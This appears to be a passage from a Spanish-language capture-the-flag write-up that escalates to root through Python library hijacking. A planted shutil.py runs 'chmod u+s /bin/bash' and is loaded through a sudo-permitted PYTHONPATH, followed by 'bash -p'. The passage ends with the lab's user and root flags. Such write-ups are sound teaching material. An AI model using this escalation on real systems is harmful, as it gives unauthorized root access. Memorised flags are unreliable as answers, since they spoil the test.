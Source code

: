Esta combinación de configuraciones presenta inadvertidamente una oportunidad de escalamiento de privilegios. Podemos crear una biblioteca de Python que defina la función make_archive que espera el script e intentar secuestrar la ejecución del script. Guarde el contenido a continuación en /dev/shm/shutil.py 

Entonces podemos hacer un library hijacking.

Si volvemos a poner sudo -l nos podemos fijar que podemos hacer set a la variables de entorno.

Si miramos las variables de las librerías de python con:
```python
python -c 'import sys;print sys.path'
```
Podemos ver sus librerías y con este comando podemos añadir:

```python
export PYTHONPATH="/tmp" 
```

Ya con eso crearemos nuestro propio shutil.py para que cuando se ejecute admin_task la opción 6 que hace referencia a backup.py, para que cargue /tmp y ahí entraría en juego shutil.py.
 ```python
 nano shutil.py
#Añadimos
import os

os.system("chmod u+s /bin/bash")
```

Si después de esto le pasamos al pythonpath el lugar donde esta el script
```python
sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh
```
lo podremos ejecutar.
En el programa elegimos la opción 6 que es la que ejecutar backupt.py
Nos salta un error porque no es lo que esperaba. Pero si por detrás se ha ejecutado correctamente 

Entonces si el root ha ejecutado ese script nos ha tenido que otorgar un privilegio uid a la bash. Lo comprobamos con: 
```python
ls -l /bin/bash
```
 Entonces si ejecutamos la bash con el flag -p para convertirnos en propietarios
 ```python
 bash -p
```

Con esto obtenemos ya la bash como propietarios, somos usuario root y podemos coger la flag.

---

# Trophy & Loot

user.txt
b169fcc4c5964852165dcb6e245c3447

root.txt
ea21af6fa769340fadef75788b278be4

